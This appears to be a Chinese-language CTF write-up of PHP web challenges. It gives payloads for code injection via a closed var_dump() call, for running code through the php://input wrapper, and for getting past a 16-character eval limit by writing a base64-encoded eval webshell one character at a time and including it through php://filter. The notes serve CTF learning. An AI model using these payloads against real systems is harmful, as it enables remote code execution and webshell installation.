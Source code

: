 ### 简单有趣的Web题

1. 本地包含、代码注入：
   - 源码文件见：命令执行文件夹
   - payload：http://localhost/?hello=);echo \`cat flag.php\`;//
   - );用来闭合var_dump()方法，echo\`command\`;执行命令，//注释。
2. php://input伪协议：
   - 源码文件见input2文件夹
   - payload：http://localhost/index.php?path=php://input POST数据<?php echo \`cat flag.php\`;?>
   - php://input协议读取POST过来的数据并执行。

### Tips

1. 上述filter伪协议利用的是encode编码为base64再带出来，filter还有decode解密语句，可利用场景如下（文字摘自phithon博客）：

   - 源码存在eval(xxx)，但xxx长度限制为16个字符，而且不能用eval或assert，怎么执行命令。题目源码文件见tips.php，那么利用这个代码怎么拿到webshell？

   - 利用file_put_contents可以将字符一个个地写入一个文件中，大概请求如下：

   - file_put_contents的第一个参数是文件名，我传入N。PHP会认为N是一个常量，但我之前并没有定义这个常量，于是PHP就会把它转换成字符串'N'；第二个参数是要写入的数据，a也被转换成字符串'a'；第三个参数是flag，当flag=8的时候内容会追加在文件末尾，而不是覆盖。

   - 除了file_put_contents，error_log函数效果也类似。

   - 但这个方法有个问题，就是file_put_contents第二个参数如果是符号，就会导致PHP出错，比如`param=$_GET[a](N,<,8);&a=file_put_contents`。但如果要写webshell的话，“<”等符号又是必不可少的。

   - 于是微博上 @买贴膜的 想出一个办法，每次向文件'N'中写入一个字母或数字，最后构成一个base64字符串，再包含的时候使用php://filter对base64进行解码即可。

   - 这时候就利用了decode了，成功getshell。

   - ```php+HTML
     # 每次写入一个字符：PD9waHAgZXZhbCgkX1BPU1RbOV0pOw
     # 最后包含
     param=include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=N
     ```

### 参考博文

1. [http://www.cnblogs.com/LittleHann/p/3665062.html](http://www.cnblogs.com/LittleHann/p/3665062.html)
2. [http://www.cnblogs.com/iamstudy/articles/include_file.html](http://www.cnblogs.com/iamstudy/articles/include_file.html)
3. [http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=2650963079&idx=1&sn=cf0e9c60a68ea7e272e8ad77e6816ebe&scene=1&srcid=0824QF8DtX5jg5FSnZlQlLHR#rd](http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=2650963079&idx=1&sn=cf0e9c60a68ea7e272e8ad77e6816ebe&scene=1&srcid=0824QF8DtX5jg5FSnZlQlLHR#rd)
4. [http://www.91ri.org/13363.html](http://www.91ri.org/13363.html)
5. [http://www.admintony.top/?p=1172](http://www.admintony.top/?p=1172)
6. https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html